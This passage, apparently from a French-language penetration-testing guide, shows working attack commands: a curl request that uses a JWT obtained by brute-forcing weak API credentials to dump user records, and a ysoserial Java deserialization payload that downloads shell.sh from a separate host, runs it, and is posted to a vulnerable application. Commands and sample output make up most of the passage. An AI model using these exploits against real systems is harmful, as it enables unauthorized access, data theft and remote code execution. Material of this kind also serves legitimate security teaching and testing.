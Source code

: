 **Commande pour utiliser le token obtenu :**
```bash
curl -s "http://192.168.1.50/api/v1/users" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzEyMDg2NTAwLCJleHAiOjE3MTIwOTAxMDB9.6JLz1jIqR3yT7Kj2VX4XsZ8_JZxKvQ9MvzJVy9X9Z8w" | jq
```

**Sortie typique :**
```json
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "username": "admin",
      "email": "admin@example.com",
      "role": "admin"
    },
    {
      "id": 2,
      "username": "john",
      "email": "john.smith@example.com",
      "role": "user"
    },
    {
      "id": 3,
      "username": "jane",
      "email": "jane.doe@example.com",
      "role": "user"
    },
    {
      "id": 4,
      "username": "robert",
      "email": "robert.johnson@example.com",
      "role": "manager"
    }
  ]
}
```

**Analyse :** Cette séquence de commandes exploite une authentification faible dans une API en testant plusieurs combinaisons simples de nom d'utilisateur et mot de passe. L'attaque a réussi avec la combinaison "admin/admin3", obtenant un token JWT valide. Ce token est ensuite utilisé pour accéder à des données sensibles via l'API. Cette vulnérabilité est due à l'utilisation de mots de passe faibles et à l'absence de protection contre les attaques par force brute.

#### 8. Exploitation de vulnérabilités de désérialisation

**Commande pour exploiter une vulnérabilité de désérialisation Java :**
```bash
java -jar ysoserial.jar CommonsCollections5 "wget http://192.168.1.5/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh" | base64 -w 0 > payload.b64

curl -s -X POST "http://192.168.1.60:8080/vulnerable-app/object" \
  -H "Content-Type: application/x-java-serialized-object" \
  -H "Cookie: JSESSIONID=1234567890ABCDEF" \
  --data-binary @payload.b64
```
